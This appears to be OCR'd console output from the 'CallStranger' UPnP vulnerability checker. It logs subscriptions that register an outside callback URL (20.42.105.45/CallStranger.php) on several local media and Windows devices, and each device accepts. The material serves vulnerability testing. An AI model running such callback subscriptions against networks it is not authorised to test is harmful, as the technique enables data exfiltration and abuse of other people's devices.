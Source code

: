     Calling stranger for  http://192.168.1.40:2870/RenderingControl/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNZwdAHuBpKwJw6L4vBT59oY3xnIU5iS85Gkmp8Ajo1p7gQx3FmvvyeWdNvX0vNhJ5ZDYLqJNp_Sct_F6xzJFlHSFe2nj4EvtiPL-GbHfBlHsthplZFfczbyXoqFxgwOlw&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/RenderingControl/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13f45a54-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/ConnectionManager/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNlKb5TTOnwnyQPA3au856DTuiCwyYdtGcCpSYHFNCBJ4j1Tr-1HbnLV59m9kHppA6GYRZpECoT-2s7MAwIpjvcllbbCdc0ORHoA40jDBwzdqECjLPCZnM1GncnOgfSFvfTYnbOMbnbYlY825Oi0f_ZA==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/ConnectionManager/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13f8483a-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.40:2870/AVTransport/event with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNBpQ_jvIj1auFPntVMxiNgqCAMMLd4m960P-5nA87VRRR-cCDjUthjQ1BaiXYGw9lJ2QS6u6Iq1jl_ugpE8ef7hoeuK9oT33wDIjm9cST_xj4IYW_S2SddtSsHhIwtkMX&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.40:2870/AVTransport/event seems successfull
    {'Date': 'Mon, 08 Jun 2020 07:15:24 GMT', 'Server': 'NFLC/3.0 UPnP/1.0 DLNADOC/1.50', 'SID': 'uuid:13fc0db2-035e-1090-8000-bc52a0dfdacc', 'Timeout': 'Second-300', 'Content-Length': '0', 'Connection': 'Keep-Alive'}
    
    Calling stranger for  http://192.168.1.31:2869/upnphost/udhisapi.dll?event=uuid:7ea9d240-fbe4-4ad8-8001-5074901c3695+urn:upnp-org:serviceId:RenderingControl with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNk6hSWo8XmOpY-kvAsWA4ztVyP71dJy0Pit2GWl9lH5u7CiU8selzo2uSXmRczZYz2MMwbF45En3rkfmhk5JkRHRQOpytn1GhDClqevh-S6UBAiDiRvcnBFRhAyb-C6mjvOCbjpZ1amIaQs5wxPFH9OSCT6aeIp5BRPeCLbk0XsbExDvq7Kilmf0X-CeoJxwrOlzhEFt3aA9UbzrP5WKq_6KAVtxk_rDMemINYtBsjMwyAwSFIr2duohzAsL7pe-f&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.31:2869/upnphost/udhisapi.dll?event=uuid:7ea9d240-fbe4-4ad8-8001-5074901c3695+urn:upnp-org:serviceId:RenderingControl seems successfull
    {'Server': 'Microsoft-Windows/10.0 UPnP/1.0 UPnP-Device-Host/1.0 Microsoft-HTTPAPI/2.0', 'Timeout': 'Second-300', 'SID': 'uuid:73096487-e9ce-4781-93bf-b5529b4120e9', 'Date': 'Mon, 08 Jun 2020 07:15:23 GMT', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.22:49154/upnp/event/ContentDirectoryNmsO with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNA1hU2ZXgFrbgMOrf3NfpHkNgShYE8oH0Zr1D8j1NHPWqCe7bEs_7g2TnvFmeoOE7hCLuzKVxdmviS-WjlvHLMlKzpJ9Yp4GxsPzviV8JD-Gnfj4yrt-SXcJe2c7Hb88BKxBqH5yRxSRZRSr6t7Ehjg==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:49154/upnp/event/ContentDirectoryNmsO seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'Linux2.6/0.0 UPnP/1.0 PhilipsIntelSDK/1.4 DLNADOC/1.50', 'SID': 'uuid:C0A80120-0000-0000-0ECC-000000000013', 'TIMEOUT': 'Second-300', 'Content-Length': '0'}
    
    Calling stranger for  http://192.168.1.22:49154/upnp/event/ConnectionManagerNmsO with http://20.42.105.45:80/CallStranger.php?c=addservice&service=gAAAAABe3eWNaIGyRbT5EdecQpW24gV91ivFeWp9wbRY1iDwwv97ffOeptG7yMGm_XUTfxnSgORfXKCvwCLnfqgyh-F5uwoUVO3edotw_WgJ600TBDPVojsj2XYdPiaDEUN29S6TYk-BO4AqCTq6SyZ6bo-DqjcjYw==&token=nae9lqq3keg79l3qei9ahohvqe
    Subscribe to http://192.168.1.22:49154/upnp/event/ConnectionManagerNmsO seems successfull
    {'DATE': 'Mon, 08 Jun 2020 07:15:24 GMT', 'SERVER': 'Linux2.6/0.0 UPnP/1.0 PhilipsIntelSDK/1.4 DLNADOC/1.50', 'SID': 'uuid:C0A80120-0000-0000-0ECC-000000000014', 'TIMEOUT': 'Second-300', 'Content-Length': '0'}
    